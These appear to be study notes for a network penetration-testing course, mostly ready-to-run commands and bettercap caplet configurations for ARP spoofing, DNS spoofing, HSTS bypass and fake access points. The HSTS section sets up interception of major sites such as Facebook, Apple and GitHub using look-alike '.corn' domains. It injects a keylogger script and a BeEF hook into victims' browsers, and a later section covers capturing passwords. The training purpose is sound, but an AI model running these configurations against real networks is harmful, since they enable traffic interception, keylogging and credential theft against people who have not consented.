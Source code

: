 # Network Penetration Testing

### Section 1: Information Gathering - Hosts

- `netdiscoverer -r ROUTER_IP/SUBNET` (replace ROUTER_IP value with inet value obtained from `ifconfig`)

### Section 2: Information Gathering - Services

- nmap/zenmap

### Section 3: MITM Attacks - ARP Spoofing

- ARP Poisoning using `arpspoof`

    ```
    arpspoof -i <NETWORK_INTERFACE> -t <IP_OF_NETWORK_INTERFACE> <TARGET_IP>
    arpspoof -i <NETWORK_INTERFACE> -t <TARGET_IP> <IP_OF_NETWORK_INTERFACE>
    ```

- Enable portforwarding to bypass linux security feature (when linux receives requests, linux stops it)

    `echo 1 > /proc/sys/net/ipv4/ip_forward`

- ARP Poisoning using `bettercap`

    Set up:

    ```
    bettercap -iface <NETWORK_INTERFACE>
    bettercap -iface <NETWORK_INTERFACE> -caplet <CAPLET_FILE>.cap
    ```

    Settings:

    ```
    arp.spoof > running
    events.stream > running
    net.probe > running
    net.recon > running
    net.sniff > running
    ```

    spoof.cap:

    ```
    net.probe on
    set arp.spoof.fullduplex true
    set arp.spoof.targets TARGET_IP
    arp.spoof on
    net.sniff on
    ```

### Section 4: MITM Attacks - Bypassing HTTPS

- HSTS Disabled

    spoof.cap:

    ```
    net.probe on
    set arp.spoof.fullduplex true
    set arp.spoof.targets TARGET_IP
    arp.spoof on
    net.sniff on
    set net.sniff.local true
    net.sniff on

    caplets.show
    hstshijack/hstshijack
    ```

- HSTS Enabled

    spoof.cap

    ```
    net.probe on
    set arp.spoof.fullduplex true
    set arp.spoof.targets TARGET_IP
    arp.spoof on
    net.sniff on
    set net.sniff.local true
    net.sniff on

    set hstshijack.log             /usr/local/share/bettercap/caplets/hstshijack/ssl.log
    set hstshijack.ignore          *
    set hstshijack.targets         twitter.com,*.twitter.com,facebook.com,*.facebook.com,apple.com,*.apple.com,ebay.com,*.ebay.com,*.linkedin.com,linkedin.com,*.winzip.com,winzip.com,*.google.ie,google.ie,*.stackoverflow.com,stackoverflow.com,*.avg.com,avg.com,*.instagram.com,instagram.com,*.tiktok.com,tiktok.com,*.bbc.com,bbc.com,*.cnn.com,cnn.com,*.microsoft.com,microsoft.com,*.reddit.com,reddit.com,*.amazon.com,amazon.com,*.github.com,github.com,*.gitlab.com,gitlab.com
    set hstshijack.replacements    twitter.corn,*.twitter.corn,facebook.corn,*.facebook.corn,apple.corn,*.apple.corn,ebay.corn,*.ebay.corn,*.linkedin.com,linkedin.com,*.winzip.com,winzip.com,*.google.ie,google.ie,*.stackoverflow.com,stackoverflow.com,*.avg.com,avg.com,*.instagram.corn,instagram.corn,*.tiktok.com,tiktok.com,*.bbc.com,bbc.com,*.cnn.com,cnn.com,*.microsoft.com,microsoft.com,*.reddit.com,reddit.com,*.amazon.com,amazon.com,*.github.corn,github.corn,*.gitlab.com,gitlab.com
    set hstshijack.obfuscate       false
    set hstshijack.encode          false
    set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js,*:/root/Desktop/inject_beef.js 
    set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js
    set dns.spoof.domains  twitter.corn,*.twitter.corn,facebook.corn,*.facebook.corn,apple.corn,*.apple.corn,ebay.corn,*.ebay.corn,*.linkedin.com,linkedin.com,*.winzip.com,winzip.com,*.google.ie,google.ie,*.stackoverflow.com,stackoverflow.com,*.avg.com,avg.com,*.instagram.corn,instagram.corn,*.tiktok.com,tiktok.com,*.bbc.com,bbc.com,*.cnn.com,cnn.com,*.microsoft.com,microsoft.com,*.reddit.com,reddit.com,*.amazon.com,amazon.com,*.github.corn,github.corn,*.gitlab.com,gitlab.com
    http.proxy  on
    dns.spoof   on

    caplets.show
    hstshijack/hstshijack
    ```

- Summary of attack's effectiveness on modern browsers 

    |Protocol|Hacker Setup|Firefox|Chrome|
    |--------|------------|-------|------|
    |HTTP|Bettercap|:white_check_mark:|:white_check_mark:|
    |HTTPS|Bettercap + hstsjihack|:white_check_mark:|Include in hstshijack caplet|
    |HTTPS + HSTS|Bettercap + hstsjihack|:white_check_mark:|Secure DNS disabled|

### Section 5: MITM Attacks - DNS Spoofing

- ARP Spoofing vs DNS Spoofing

- Use bettercap module

    spoof.cap
    
    ```
    set dns.spoof.all true
    set dns.spoof.domains DOMAIN_1,DOMAIN_2
    dns.spoof on
    ```

### Section 6: MITM Attacks - Analyse captured packets via WireShark

- Sniffing and analysing data

- Filtering, tracing and inspecting data

- Capturing passwords & credentials

### Section 7: MITM Attacks - Fake Access Point (Honeypot)

- You will need a wireless adapter with AP mode enabled

- Set up access point in Kali via [Wifi Hotspot](https://github.com/lakinduakash/linux-wifi-hotspot) or [hostapd](https://www.section.io/engineering-education/setting-up-hotspot-on-kali-linux/)

- Apparently, [Honeypots](https://www.techtarget.com/searchsecurity/definition/honey-pot) can be used AGAINST malicious actors